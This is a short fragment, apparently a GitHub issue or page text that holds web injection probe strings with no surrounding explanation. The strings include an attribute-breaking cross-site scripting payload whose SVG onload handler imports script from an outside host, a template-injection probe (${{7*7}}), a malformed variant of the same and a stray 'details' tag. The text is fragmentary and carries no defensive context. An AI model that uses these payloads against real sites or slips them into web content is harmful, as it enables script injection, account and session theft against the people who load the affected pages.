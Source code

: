 # '"><s><svg onload=import(/\nj.gr/)>${{7*7}}
'"><s></s>svg onload=import(/\nj.gr/)>${{7*7}}

<detailstest=test>💩
